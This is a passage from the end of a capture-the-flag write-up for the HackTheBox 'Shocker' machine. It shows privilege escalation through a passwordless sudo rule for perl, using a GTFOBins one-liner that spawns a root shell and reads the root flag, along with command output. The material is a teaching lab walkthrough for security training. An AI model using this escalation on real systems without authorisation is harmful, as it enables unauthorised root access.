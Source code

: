 ```bash
cat user.txt
********************************
shelly@Shocker:~$
```


After getting it, let's escalate our privilliges and be root.

use this command to understand which files can run by a regulare user as root.

```bash
sudo -l
```

There is a file that shelly can run as root.

```bash
shelly@Shocker:/var/www$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

There is binary file of perl so let's check how can gtfobins can help us.


https://gtfobins.github.io/gtfobins/perl/


![image](https://cdn-images-1.medium.com/max/1000/1*r1ZN2xnRGv5MhSf9RDC8wg.png)


use this command and there is a shell as root.

Grab /root/root.txt 

```bash
shelly@Shocker:/var/www$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
********************************
#
```
THIS IS THE END.

***Written by Alon Presman, Penetration Tester and Ethical Hacker.***






